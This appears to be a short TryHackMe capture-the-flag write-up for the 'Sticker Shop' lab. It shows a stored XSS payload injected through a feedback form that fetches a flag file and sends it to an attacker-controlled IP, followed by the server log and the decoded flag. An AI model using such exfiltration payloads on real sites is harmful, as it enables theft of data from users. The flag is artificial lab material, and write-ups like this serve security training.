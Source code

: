 ```yaml
---
title: Sticker Shop
date: 2025-1-1 00:00:00
categories: Cybersecurity Tryhackme
tags:
  - THM
  - Writeups
by: Mahmud
---
```


we need to find the flag in `http://10.10.206.150:8080/flag.txt`

so when enter web page there is feedback tab we can use it for HTML injuction 
lets test it
1. on linux start webserver usng `pyton3 -m http.server 8080`

2. inject feedback with 

```html
   <img src='YourIP:8080'>
```

1. you should see request in teminal so the injuction success 

2. so using chatgpt i create custom injuction 

```html
   <script>
    fetch('/flag.txt')
        .then(response => response.text())
        .then(data => {
            // Redirect to your server with the flag as a query parameter
            window.location.href = 'http://10.21.49.29:9091/?flag=' + encodeURIComponent(data);
        });
</script>

```

1. you will receive

 ```bash
   10.10.206.150 - - [11/Jan/2025 01:03:11] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -

```
1. using URL decoder on  `flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D`
2. the flag is `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
